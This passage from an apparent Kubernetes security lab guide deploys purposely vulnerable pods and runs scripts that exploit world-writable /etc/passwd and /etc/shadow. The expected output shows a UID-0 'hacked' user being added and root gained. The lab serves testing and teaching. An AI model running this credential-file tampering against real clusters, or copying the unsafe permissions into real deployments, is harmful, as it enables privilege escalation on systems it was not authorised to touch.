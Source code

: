 ### 3.3 Deploy Busybox Pod
```bash
kubectl apply -f vuln-pod-busybox.yaml
```

### 3.4 Verify Pods are Running
```bash
kubectl get pods -n passwd-lab
```

Wait until all pods show `Running` status.

## 🧪 Step 4: Run Test Cases

### Test Case 1: External Python Script (Runs from outside container)

This script tests the privilege escalation scenario from outside the container:

```bash
python3 passwd_external.py
```

**What it does:**
- Connects to the vulnerable pod via kubectl
- Checks file permissions remotely
- Attempts privilege escalation
- Reports success/failure

**Expected Output:**
```
🔓 Kubernetes /etc/passwd Privilege Escalation Test
============================================================
[+] Pod vuln-passwd-pod is running in namespace passwd-lab
[*] Testing file permissions inside the pod...
[*] /etc/passwd permissions: -rw-rw-rw- 1 root root 1234 Dec 1 12:00 /etc/passwd
[*] /etc/shadow permissions: -rw-rw-rw- 1 root shadow 1234 Dec 1 12:00 /etc/shadow
[+] Files are writable. Proceeding with exploitation...
[*] Attempting privilege escalation...
[*] Generated password hash: $6$...
[+] Successfully added fake user 'hacked' with UID 0
[*] Verification - /etc/passwd entry: hacked:x:0:0:root:/root:/bin/bash
[*] User ID as 'hacked': uid=0(root) gid=0(root) groups=0(root)

🎯 PRIVILEGE ESCALATION SUCCESSFUL!
[*] The container is vulnerable to /etc/passwd exploitation
```

### Test Case 2: No Capabilities Scenario

This tests the scenario where all capabilities are dropped:

```bash
# First, check the pod's capabilities
kubectl exec -it -n passwd-lab vuln-passwd-pod-no-caps -- bash -c "cat /proc/1/status | grep CapEff"

# Expected output: CapEff: 0000000000000000 (all capabilities dropped)

# Now test privilege escalation
kubectl exec -it -n passwd-lab vuln-passwd-pod-no-caps -- python3 passwd.py
```

